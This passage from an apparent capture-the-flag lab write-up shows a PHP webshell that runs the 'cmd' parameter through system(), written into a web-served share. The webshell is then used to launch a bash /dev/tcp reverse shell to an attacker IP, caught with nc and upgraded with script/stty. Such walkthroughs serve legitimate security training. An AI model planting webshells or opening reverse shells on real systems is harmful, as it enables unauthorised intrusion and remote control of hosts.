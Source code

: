 #### WebShell

I’ll overwrite `0xdf.php` with a proper simple PHP webshell:

    
    
    dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' 
    <?php
      system($_REQUEST[cmd]);
    ?>
    dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/0xdf.php
    

This is going to take a parameter (GET or POST) named `cmd` and pass it into
`system`, and the results will be returned.

Now if I just load the page, there’s nothing there. But if I add `?cmd=id` to
the end:

![image-20221111160112917](https://0xdfimages.gitlab.io/img/image-20221111160112917.png)

#### Shell

To go from this webshell to a full reverse shell, I’ll just pass in a [bash
reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as `cmd`:

    
    
    bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    

For details on how this shell works, see [this
video](https://www.youtube.com/watch?v=OjkVep2EIlw).

Before pasting this in, I’ll make sure my tun0 ip matches what’s in the
command, and I’ll need to URL encode the `&` characters to `%26`, or else they
will be treated as the end of the `cmd` parameter, with a new parameter
following.

I’ll start `nc` listening on 443 (to match the port given above), and then
load the page:

[![image-20221111160716229](https://0xdfimages.gitlab.io/img/image-20221111160716229.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221111160716229.png)

The webpage just hangs, but there’s a shell as alex at the listening `nc`!

I’ll use the `script` / `stty` shell upgrade trick (details
[here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

    
    
    alex@squashed:/var/www/html$ script /dev/null -c bash
    Script started, file is /dev/null
    alex@squashed:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    alex@squashed:/var/www/html$ 
    